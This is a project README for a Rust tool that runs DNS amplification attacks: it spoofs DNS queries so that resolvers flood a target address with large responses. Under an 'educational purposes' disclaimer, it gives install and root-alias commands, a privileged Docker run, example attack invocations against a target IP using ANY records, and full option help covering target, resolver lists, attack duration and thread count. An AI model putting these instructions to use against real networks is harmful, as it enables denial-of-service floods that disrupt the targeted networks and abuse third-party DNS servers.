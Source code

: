# r_dns-amplifier

![license](https://img.shields.io/badge/license-MIT-brightgreen.svg)
![version](https://img.shields.io/badge/version-2.6.0-lightgrey.svg)

`r_dns-amplifier` is a Rust tool for educational purposes to demonstrate DNS amplification attacks. It sends spoofed DNS queries to a target server, which then responds with a large volume of data to the specified address, amplifying the traffic.

**DISCLAIMER:** DNS amplification attacks are illegal and unethical. Use this tool responsibly and only for educational purposes. The author disclaims all responsibility for misuse.

## Requirements

- Rust (tested with version 1.81.0)
- Additional libraries: `pkg-config`, `libssl-dev`

## Install

Install globally via Cargo:

## Install

You can install the script globally using the cargo package manager by running:

```
cargo install --git https://github.com/cavoq/r_dns-amplifier.git --branch master
```

You may also need some additional libs:

```
sudo apt-get install pkg-config libssl-dev
```

Because this script uses raw sockets it requires root privileges, you need to set an alias and run the script like this if you don't want
to specify the full path:

```
echo "alias sudo-rdns='sudo env \"PATH=$PATH\" r_dns-amplifier'" >> ~/.bashrc && source ~/.bashrc
```

**Note: Instead of *r_dns-amplifier* you call *sudo-rdns***
## Usage

Example usage with global install:
```
sudo-rdns 192.168.2.1 --port 53 -r ANY -d google.com
```

You can also run this script by building it directly after cloning:
```
cargo build --release
```

*see help:*

```
Usage: r_dns-amplifier [OPTIONS] <TARGET>

Arguments:
  <TARGET>  IPv4 address of the target

Options:
  -p, --port <PORT>                  Port of the target [default: 53]
  -r, --record-type <RECORD_TYPE>    DNS record type to use [A, MX, NS, ANY] [default: ANY]
  -s, --server-list <SERVER_LIST>    List of DNS servers to use
  -t, --time <TIME>                  Time of the attack in seconds
  -d, --domain <DOMAIN>              Domain to resolve [default: google.com]
  -m, --threads <THREADS>            Thread count [default: 10]
  -n, --dns-resolver <DNS_RESOLVER>  DNS resolver to use
  -h, --help                         Print help
  -V, --version                      Print version
```

## Docker

You can also run this script in a Docker container, the `--privileged` flag is required to use raw sockets in the container.

```
docker build -t r_dns-amplifier .
docker run --rm --privileged r_dns-amplifier 192.168.2.1 --port 53 -r ANY -d google.com
```
